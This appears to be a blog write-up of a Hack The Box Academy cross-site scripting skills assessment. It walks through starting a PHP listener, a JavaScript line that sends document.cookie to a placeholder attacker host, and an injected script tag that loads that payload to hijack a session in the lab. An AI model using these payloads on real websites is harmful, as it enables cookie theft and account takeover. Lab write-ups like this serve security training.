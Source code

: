 ```yaml
---
title: Cross-Site Scripting (XSS)
author: saramazal
date: 2024-11-08
categories: [HTB Academy]
tags: [HackTheBox Academy, Skills Assessment, cbbh, cpts, xss, tmpserver, Session Hijacking ]     # TAG names should always be lowercase
img_path: /images/htb-academy/
image:
  path: images/htb-academy/xss.png
---
```




## [HTB Academy: Cross-Site Scripting (XSS) Module](https://academy.hackthebox.com/course/preview/cross-site-scripting-xss)
### Skills Assessment
We are performing a Web Application Penetration Testing task for a company that hired you, which just released their new `Security Blog`.
In our Web Application Penetration Testing plan, we reached the part 
where you must test the web application against Cross-Site Scripting 
vulnerabilities (XSS).

Start the server below, make sure you are connected to the VPN, and access the `/assessment` directory on the server using the browser:

## Questions:

1. Identify a user-input field that is vulnerable to an XSS vulnerability
2. Find a working XSS payload that executes JavaScript code on the target's browser
3. Using the `Session Hijacking` techniques, try to steal the victim's cookies, which should contain the flag.

## Answers:
### First, let's create a server on our machine and prepare a payload for testing input fields on the target site.
```bash
mkdir /tmp/tmpserver
```

```cd /tmp/tmpserver```

```nano myscript.js > new Image().src='http://hacker_ip:3333/index.php?c='+document.cookie;```

```nano index.php```

![php-code](/images/htb-academy/php-code.png)

## Let's start your server

```sudo php -S 0.0.0.0:3333```

### Now let's test the input fields on the target site:

```"><script src=http://hacker_ip:3333/myscript.js></script>```

![inputs](/images/htb-academy/inputs.png)
![php-server](/images/htb-academy/php-server.png)

### Great, it works!

### Let's check our cookie file.

![cookie](/images/htb-academy/cookie.png)

## Happy Hacking!


[![XSS Badge](/images/htb-academy/xss-badge.png){: width="600" height="auto" .shadow }](https://academy.hackthebox.com/achievement/badge/1e195a3e-ef45-11ee-b18d-bea50ffe6cb4)

[My HTB Academy unique referral link >](https://referral.hackthebox.com/mzyGKZb)

